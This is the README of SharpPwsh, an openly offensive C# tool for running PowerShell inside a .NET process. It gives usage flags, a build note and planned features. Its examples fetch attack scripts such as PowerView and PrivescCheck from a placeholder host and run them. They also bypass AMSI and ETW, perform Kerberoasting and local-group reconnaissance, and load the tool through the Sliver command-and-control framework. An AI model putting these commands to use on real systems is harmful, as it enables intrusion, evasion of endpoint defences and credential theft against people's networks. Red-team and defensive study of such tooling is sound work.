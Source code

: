 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass
- Multiple command & script support

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            URI to fetch remote script

  -b, --bypass-amsi    Bypass AMSI

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
PS > .\SharpPwsh.exe -c whoami

# load remote script and execute
PS > .\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# execute multiple powershell commands
PS > .\SharpPwsh.exe -c hostname,whoami

# execute multiple powershell commands using multiple scripts
PS > .\SharpPwsh.exe -c get-netlocalgroup,invoke-privesccheck -u http://x.x.x.x/PowerView.ps1,http://x.x.x.x/PrivescCheck.ps1 -b

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/SharpPwsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/SharpPwsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts


## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.